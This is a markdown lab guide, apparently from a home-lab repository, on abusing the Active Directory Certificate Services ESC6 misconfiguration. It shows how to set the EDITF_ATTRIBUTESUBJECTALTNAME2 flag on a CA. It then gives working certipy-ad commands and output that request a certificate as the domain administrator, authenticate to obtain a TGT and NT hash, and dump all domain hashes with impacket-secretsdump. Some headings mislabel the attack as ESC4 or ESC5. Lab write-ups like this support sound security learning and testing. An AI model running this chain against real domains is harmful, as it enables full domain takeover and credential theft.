

# 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 6 (ESC6) Abuse Guide

# What is ADCS - ESC6

The `EDITF_ATTRIBUTESUBJECTALTNAME2` flag enables the addition of custom values in a certificate’s **Subject Alternative Name (SAN)** field, even when the subject is created from Active Directory. When enabled on a Certificate Authority (CA), this flag can allow malicious individuals to misuse certificate templates that permit domain authentication. By specifying random Subject Alternative Names (SANs), attackers could potentially authenticate as any user, including domain administrators, which poses a serious security threat.

In summary, if the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag is set on a Certificate Authority Server (CA), any template with **client authentication** enabled is vulnerable to an **ESC1** attack and can be used to request a certificate with a user-defined Subject Alternative Name (SAN).

Unprivileged users that can specify the users in the SAN settings can lead to immediate compromise, and pose a great risk to your organization.

If the AD CS `editflags > EDITF_ATTRIBUTESUBJECTALTNAME2` flag is turned on, each user can specify the SAN settings for their certificate request. This, in turn, affects all certificate templates, whether they have the *Supply in the request* option turned on or not.

If there's a template where the `EDITF_ATTRIBUTESUBJECTALTNAME2` setting is turned on, and the template is valid for authentication, an attacker can enroll a certificate that can impersonate any arbitrary account.


## Setting Up the ESC4 Misconfiguration (Lab Environment)

For ADCS ESC6, we have to enable the following flag:

```
EDITF_ATTRIBUTESUBJECTALTNAME2
```

In order to make a template vulnerable to ADCS ESC6, we need to make this change.

### Step 1: Verify the Current Flag

First, we check using a command to ensure that the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag is not currently set:

```
certutil -config "\<CA\_HOST>\LAB-CA" -getreg policy\EditFlags
```

In our case, the CA is on the domain controller:

```
certutil -config "DC01-FURIOUS5\furious-DC01IFURIOUS5-CA" -getreg policy\EditFlags
```


### Step 2: Modify the Registry

Now go to `regedit`:

```
HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<YourCAName>\PolicyModules\CertificateAuthority\_MicrosoftDefault.Policy
```

Replace `<YourCAName>` with the name of your CA.

Right-click `EditFlags` and click Modify.


Initially, the value is:

```
11014e
```

Save this value. We will revert it after the practice.


Change the value to:

```
15014e
```


### Step 3: Restart the Certificate Service

Now go to Command Prompt and run the following commands:

```
net stop certsvc
```

Then:

```
net start certsvc
```

### Step 4: Confirm the Flag is Enabled

Now when we run the command again:

```
certutil -config "DC01-FURIOUS5\furious-DC01IFURIOUS5-CA" -getreg policy\EditFlags
```

We should see the flag enabled.




## Key Conditions for ESC4 Exploitation

- One user-specified SAN should be enabled.
- Request disposition should be set to "issue".


---

## Step-by-Step Exploitation

The exploitation is very similar to ESC1.

### Requesting Domain Admin Certificate using User Template

```

certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template User -target furious.local -upn [administrator@furious.local](mailto:administrator@furious.local)

```
```
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC5]
└─$ certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template User -target furious.local -upn administrator@furious.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 59
[*] Got certificate with UPN 'administrator@furious.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

### Authenticating with Domain Admin Certificate

```
certipy-ad auth -pfx administrator.pfx
```
```
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC5]
└─$ certipy-ad auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@furious.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@furious.local': aad3b435b51404eeaad3b435b51404ee:f1c3f58541c936fd550482ec578f102e
```

### Optional: Dump All Hashes

```
impacket-secretsdump -hashes 'aad3b435b51404eeaad3b435b51404ee\:f1c3f58541c936fd550482ec578f102e' 'furious.local/administrator\@furious.local'
```
